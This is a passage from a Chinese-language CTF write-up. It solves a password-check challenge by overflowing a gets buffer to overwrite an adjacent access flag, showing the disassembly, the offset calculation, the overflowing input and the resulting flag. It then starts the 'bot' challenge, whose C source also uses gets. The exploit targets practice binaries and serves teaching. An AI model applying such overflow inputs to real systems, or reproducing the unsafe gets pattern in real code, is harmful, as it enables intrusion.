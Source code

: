 可以看到，裡面讀取密碼的部分使用 gets 進行讀取，很明顯的有 BOF 的漏洞

而觀察 assembly 後，可以看到進行檢查的 access 變數在 input 的後面，可以直接覆蓋過去

```
   0x00005555555552e5 <+145>:   lea    rax,[rbp-0x1f]
   0x00005555555552e9 <+149>:   mov    rdi,rax
=> 0x00005555555552ec <+152>:   call   0x5555555550a0 <gets@plt>
   0x00005555555552f1 <+157>:   lea    rdx,[rbp-0x29]
   0x00005555555552f5 <+161>:   lea    rax,[rbp-0x1f]
   0x00005555555552f9 <+165>:   mov    rsi,rdx
   0x00005555555552fc <+168>:   mov    rdi,rax
   0x00005555555552ff <+171>:   call   0x555555555090 <strcmp@plt>
   0x0000555555555304 <+176>:   test   eax,eax
   0x0000555555555306 <+178>:   je     0x555555555316 <check+194>
   0x0000555555555308 <+180>:   lea    rdi,[rip+0xd79]        # 0x555555556088
   0x000055555555530f <+187>:   call   0x555555555030 <puts@plt>
   0x0000555555555314 <+192>:   jmp    0x55555555531d <check+201>
   0x0000555555555316 <+194>:   mov    DWORD PTR [rbp-0x4],0x1
   0x000055555555531d <+201>:   cmp    DWORD PTR [rbp-0x4],0x0
   0x0000555555555321 <+205>:   je     0x555555555339 <check+229>
   0x0000555555555323 <+207>:   lea    rdi,[rip+0xd86]        # 0x5555555560b0
   0x000055555555532a <+214>:   call   0x555555555030 <puts@plt>
   0x000055555555532f <+219>:   mov    eax,0x0
   0x0000555555555334 <+224>:   call   0x5555555551d5 <print_flag>
```

input 在 `rbp-0x1f`，而 access 在 `rbp-0x4`，因此只要覆蓋 27 個字元之後即可碰觸到 access 的變數內容 (內容不一定要填 1，因為在 c 中整數只要不是 0 都可以當成 true)

```
$ nc lac.tf 31121
If I gaslight you enough, you won't be able to guess my password! :)
Password:
123456789012345678901234567a
I swore that was the right password ...
Guess I couldn't gaslight you!
lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
```

`lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}`

### bot
```
I made a bot to automatically answer all of your questions.

`nc lac.tf 31180`
```
附件: `Dockerfile`, `bot`, `bot.c`, `libc-2.31.so`, `ld-2.31.so`

:::spoiler bot.c
```clike=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
```